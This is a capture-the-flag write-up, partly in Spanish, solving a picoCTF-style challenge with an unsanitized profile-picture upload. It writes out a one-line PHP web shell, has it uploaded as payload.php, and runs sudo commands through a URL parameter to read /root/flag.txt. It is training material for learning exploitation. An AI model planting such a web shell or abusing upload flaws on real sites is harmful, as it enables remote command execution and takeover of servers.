 #### Description

A developer has added profile picture upload functionality to a website. However, the implementation is flawed, and it presents an opportunity for you. Your mission, should you choose to accept it, is to navigate to the provided web page and locate the file upload area. Your ultimate goal is to find the hidden flag located in the `/root` directory.

Additional details will be available after launching your challenge instance.

#### Hints 

1.- File upload was not sanitized
2.- Whenever you get a shell on a remote machine, check `sudo -l`



Deacuerdo al codigo, crea en una terminal de linux un archivo php del nombre  "payload.php" , y se verifica el contenido
````
nano payload.php           
`````
con el siguiente contenido:
````
<?php system($_GET['mycommand']); ?>
```````

* En la pagina hay un boton para subir imagenes subes payload.php.
* En el link deve terminar en uploads/payload.php 
* en el link deve terminar en uploads/payload.php?mycommand=sudo -l
* En el link deve terminar en uploads/payload.php?mycommand=sudo ls /root
Y bas buscando entre estos aste terminar con encontrar la ruta de la bandera
http://standard-pizzas.picoctf.net:62186/uploads/payload.php?mycommand=sudo cat /root/flag.txt


Referencias:
https://www.youtube.com/watch?v=IEs3Oiqh-qE


